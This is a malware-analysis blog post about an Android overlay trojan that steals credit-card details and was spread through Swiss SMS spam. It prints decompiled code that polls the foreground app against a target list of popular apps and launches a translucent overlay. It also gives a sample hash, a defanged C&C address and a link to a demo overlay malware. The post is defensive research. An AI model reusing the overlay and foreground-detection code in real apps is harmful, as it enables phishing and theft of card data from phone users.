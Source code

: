 ```yaml
---
layout: post
title: Analysis of overlay technique used by malware delivered via SMS spam campaign in Switzerland
category: android-overlay-malware
tags: [malware-analysis, reverse-engineering, android,overlay]
disqus: y
---
```


<a href="/public/images/instagram_overlay.gif" target="blank"style="float: right; z-index:999;" >
<img src="/public/images/instagram_overlay.gif" style="border: 0px;" width="230" />
</a>

After reading the announcement from [GovCERT](https://www.govcert.admin.ch) about a new SMS spam campaign in Switzerland delivering a credit-card stealing Android malware, we wanted to take a look at the code behind it.
<br/><br/>
We found some great analysis by [FireEye](https://www.fireeye.com/blog/threat-research/2016/06/latest-android-overlay-malware-spreading-in-europe.html) and [Angel Alonso-Parrizas](http://blog.angelalonso.es/2016/07/cyber-campaign-in-switerzland-using.html) on the inner-working of this malware. But since we are interested in [overlay attacks](http://www.modzero.ch/modlog/archives/2015/04/01/android_apps_in_sheeps_clothing/index.html), we analyzed only this aspect. After getting a sample (*MD5 c121a1ae8a4ee564fd6bd079ad5d3373*) we tried to infect an Android emulator running version 4.4.2. In the animation on the right-hand side you see the overlay getting popped on top of Instagram application.
<br/><br/>
For the static analysis we used both [cfr](http://www.benf.org/other/cfr/) and [jd-gui](jd.benow.ca) decompilers. As well described by Alonso, the main payload of the malware is loaded deferred after the malware is launched. We extracted the main payload (actually a dex-file in the application folder) from one of our infected (rooted) device and started decompiling it. Every malware using overlay attacks basically does the following two steps:

- Monitor the foreground process continuously
- Inject an overlay view when a particular condition is met
	- Using `WindowManager.addView()`
	- By starting its own activity

If you want to dig deeper on some overlay code, we developed a [simple malware](https://github.com/geeksonsecurity/android-overlay-malware-example) to demonstrate how this works.
<br/><br/>
This malware, as suspected, contains a background service which basically checks continuously the foreground process.

```java
@Override
public void run() {
		String string2 = dkukcwkg.this.getTop();
		int n = 0;
		int n2 = 0;
		do {
				if (n2 >= Constants.PACKAGES.length) {
						n2 = n;
						break;
				}
				if (string2.contains(Constants.PACKAGES[n2])) {
						n2 = 1;
						break;
				}
				++n2;
		} while (true);
		if (n2 != 0) {
				// Show the overlay activity
				if (settings.getBoolean("CARD_SENT", false)) return;
				Intent intent = new Intent((Context)dkukcwkg.this, dpathlt.class);
				intent.putExtra("package", string2);
				intent.addFlags(268435456); // FLAG_CANCEL_CURRENT
				dkukcwkg.this.startActivity(intent);
		}
}
```

The foreground process is checked against a predefined list of package names (of common apps), in our sample the list was `"com.whatsapp", "com.android.vending", "com.facebook.orca", "com.facebook.katana", "com.tencent.mm", "com.google.android.youtube", "com.ubercab", "com.viber.voip", "com.eboks.activities", "com.skype.raider", "com.snapchat.android", "com.instagram.android", "com.twitter.android"`.

Starting with version 5.1.1, retrieving the foreground process on Android [seems almost impossible](http://stackoverflow.com/questions/30619349/android-5-1-1-and-above-getrunningappprocesses-returns-my-application-packag). So we were curious about if they to actually use some fancy foreground detection stuff.

If we look at the `getTop()` method we see following:

```java
private String getTop() {
		String string2 = Build.VERSION.SDK_INT > 20 ? this.getActivePackageL() : this.getActivePackagePreL();
		if (string2 != null) {
				return string2;
		}
		return "";
}
```

On pre-Lollipop version they use `ActivityManager.RunningTaskInfo`:

```java
private String getActivePackagePreL() {
        List list = this.am.getRunningTasks(1);
        if (!list.isEmpty()) {
            return ((ActivityManager.RunningTaskInfo)list.get((int)0)).topActivity.getPackageName();
        }
        return "";
    }
```

On post-Lollipop version they use `ActivityManager.getRunningAppProcesses()` and check against the importance level of the process (looking for [IMPORTANCE_FOREGROUND](https://developer.android.com/reference/android/app/ActivityManager.RunningAppProcessInfo.html#IMPORTANCE_FOREGROUND)), since starting on Lollipop this is not enough anymore, they also check an hidden field called `processState` searching for a specific value (2). This technique is very well explained on [this StackOverflow thread](http://stackoverflow.com/a/28277427).

```java
private String getActivePackageL()
 {
	 Object localObject3 = null;
	 Object localObject1 = null;
	 try
	 {
		 localObject2 = ActivityManager.RunningAppProcessInfo.class.getDeclaredField("processState");
		 localObject1 = localObject2;
	 }
	 catch (Exception localException1)
	 {
		 Object localObject2;
		 Iterator localIterator;
		 ActivityManager.RunningAppProcessInfo localRunningAppProcessInfo;
		 for (;;) {}
	 }
	 localIterator = ((ActivityManager)this.context.getSystemService("activity")).getRunningAppProcesses().iterator();
	 if (!localIterator.hasNext()) {}
	 for (localObject1 = localObject3;; localObject1 = localRunningAppProcessInfo)
	 {
		 if (localObject1 != null) {
			 break label119;
		 }
		 return "";
		 localRunningAppProcessInfo = (ActivityManager.RunningAppProcessInfo)localIterator.next();
		 // Check if importance level is IMPORTANCE_FOREGROUND and reasonCode equals 0
		 if ((localRunningAppProcessInfo.importance != 100) || (localRunningAppProcessInfo.importanceReasonCode != 0)) {
			 break;
		 }
		 localObject2 = null;
		 try
		 {
			 // Get processState field via reflection
			 int i = ((Field)localObject1).getInt(localRunningAppProcessInfo);
			 localObject2 = Integer.valueOf(i);
		 }
		 catch (Exception localException2)
		 {
			 for (;;) {}
		 }
		 // If processState isn't PROCESS_STATE_TOP (value 2) break
		 if ((localObject2 == null) || (((Integer)localObject2).intValue() != 2)) {
			 break;
		 }
	 }
	 label119:
	 return localObject1.pkgList[0];
 }
```

So no big surprise there, the malware uses well known ways to get the foreground process **which aren't working on Android >= 5.1 anymore**.

Now, if the current foreground process match one item on the target list, the overlay Activity is started. This Activity is made transparent using Android styling as following:

```xml
<style name="LightDialogTheme" parent="@android:style/Theme.Holo.Light.NoActionBar">
		<item name="android:windowBackground">@drawable/dialog_full_holo_light</item>
		<item name="android:windowFrame">@null</item>
		<item name="android:windowIsFloating">true</item>
		<item name="android:windowIsTranslucent">true</item>
		<item name="android:windowContentOverlay">@null</item>
		<item name="android:windowAnimationStyle">@style/DialogAnimation</item>
		<item name="android:backgroundDimEnabled">true</item>
		<item name="android:windowSoftInputMode">adjustResize|stateUnchanged</item>
</style>
```

What's also interesting is that the APK contains language resources for many different languages like German, Greek, Spanish, French, Italian, Japanese and Chinese (Simplified, Traditional, Hong-Kong). Furthermore the credit-card number is validated, so that before actually submitting something to the server they are sure that the number given pass the [Luhn Algorithm](https://en.wikipedia.org/wiki/Luhn_algorithm). Unfortunately by the time we were analyzing the malware, its C&C Server (*hXXp://85.93.5.146/*) was already down.
<br/><br/>
We also tried our [Overlay Protector](https://geeksonsecurity.github.io/overlay-protector-website/) against it and the overlay got detected by our app. Be aware that the app in the beta channel is an old version which can only detect overlays injected via `WindowManager.addView`.
<br/><br/>
<iframe width="420" height="515" src="https://www.youtube.com/embed/GyMR9QF691s" frameborder="0" allowfullscreen></iframe>
